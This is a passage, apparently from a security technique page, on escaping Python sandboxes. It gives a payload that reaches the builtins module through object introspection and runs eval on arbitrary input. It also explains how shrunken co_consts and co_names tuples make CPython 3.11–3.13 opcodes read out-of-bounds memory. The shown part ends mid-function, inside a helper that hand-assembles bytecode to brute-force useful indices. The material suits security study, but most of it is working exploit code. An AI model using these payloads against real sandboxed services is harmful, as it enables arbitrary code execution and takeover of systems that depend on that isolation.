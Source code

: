 It basically does the following things, for those strings we get it from the `__dir__` method:

```python
getattr = (None).__getattribute__('__class__').__getattribute__
builtins = getattr(
  getattr(
    getattr(
      [].__getattribute__('__class__'),
    '__base__'),
  '__subclasses__'
  )()[-2],
'__repr__').__getattribute__('__globals__')['builtins']
builtins['eval'](builtins['input']())
```

---

### Version notes and affected opcodes (Python 3.11–3.13)

- CPython bytecode opcodes still index into `co_consts` and `co_names` tuples by integer operands. If an attacker can force these tuples to be empty (or smaller than the maximum index used by the bytecode), the interpreter will read out-of-bounds memory for that index, yielding an arbitrary PyObject pointer from nearby memory. Relevant opcodes include at least:
  - `LOAD_CONST consti` → reads `co_consts[consti]`.
  - `LOAD_NAME namei`, `STORE_NAME`, `DELETE_NAME`, `LOAD_GLOBAL`, `STORE_GLOBAL`, `IMPORT_NAME`, `IMPORT_FROM`, `LOAD_ATTR`, `STORE_ATTR` → read names from `co_names[...]` (for 3.11+ note `LOAD_ATTR`/`LOAD_GLOBAL` store flag bits in the low bit; the actual index is `namei >> 1`). See the disassembler docs for exact semantics per version. [Python dis docs].
- Python 3.11+ introduced adaptive/inline caches that add hidden `CACHE` entries between instructions. This doesn’t change the OOB primitive; it only means that if you handcraft bytecode, you must account for those cache entries when building `co_code`.

Practical implication: the technique in this page continues to work on CPython 3.11, 3.12 and 3.13 when you can control a code object (e.g., via `CodeType.replace(...)`) and shrink `co_consts`/`co_names`.

### Quick scanner for useful OOB indexes (3.11+/3.12+ compatible)

If you prefer to probe for interesting objects directly from bytecode rather than from high-level source, you can generate minimal code objects and brute force indices. The helper below automatically inserts inline caches when needed.

```python
import dis, types

def assemble(ops):
    # ops: list of (opname, arg) pairs
    cache = bytes([dis.opmap.get("CACHE", 0), 0])
    out = bytearray()
    for op, arg in ops:
        opc = dis.opmap[op]
        out += bytes([opc, arg])
        # Python >=3.11 inserts per-opcode inline cache entries
        ncache = getattr(dis, "_inline_cache_entries", {}).get(opc, 0)
        out += cache * ncache
    return bytes(out)

# Reuse an existing function's code layout to simplify CodeType construction
base = (lambda: None).__code__

# Example: probe co_consts[i] with LOAD_CONST i and return it
# co_consts/co_names are intentionally empty so LOAD_* goes OOB

def probe_const(i):
    code = assemble([
```